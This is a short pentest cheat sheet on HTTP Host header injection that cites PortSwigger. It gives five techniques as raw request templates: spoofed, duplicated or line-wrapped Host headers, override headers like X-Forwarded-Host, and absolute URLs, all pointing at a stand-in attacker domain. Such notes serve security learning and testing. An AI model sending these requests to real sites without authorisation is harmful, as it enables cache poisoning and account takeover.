# Host Header Injection

## Introduction
HTTP Host header attacks exploit vulnerable websites that handle the value of the Host header in an unsafe way. If the server implicitly trusts the Host header, and fails to validate or escape it properly, an attacker may be able to use this input to inject harmful payloads that manipulate server-side behavior. Attacks that involve injecting a payload directly into the Host header are often known as "Host header injection" attacks.

## How to exploit
1. Change the host header
```
GET /index.php HTTP/1.1
Host: evil-website.com
...
```
2. Duplicating the host header
```
GET /index.php HTTP/1.1
Host: vulnerable-website.com
Host: evil-website.com
...
```
3. Add line wrapping
```
GET /index.php HTTP/1.1
 Host: vulnerable-website.com
Host: evil-website.com
...
```
4. Add host override headers
```
X-Forwarded-For : evil-website.com
X-Forwarded-Host : evil-website.com
X-Client-IP : evil-website.com
X-Remote-IP : evil-website.com
X-Remote-Addr : evil-website.com
X-Host : evil-website.com
```
How to use? In this case im using "X-Forwarded-For : evil.com"
```
GET /index.php HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For : evil-website.com
...
```
5. Supply an absolute URL
```
GET https://vulnerable-website.com/ HTTP/1.1
Host: evil-website.com
...
```

## References
* [PortSwigger](https://portswigger.net/web-security/host-header/exploiting)
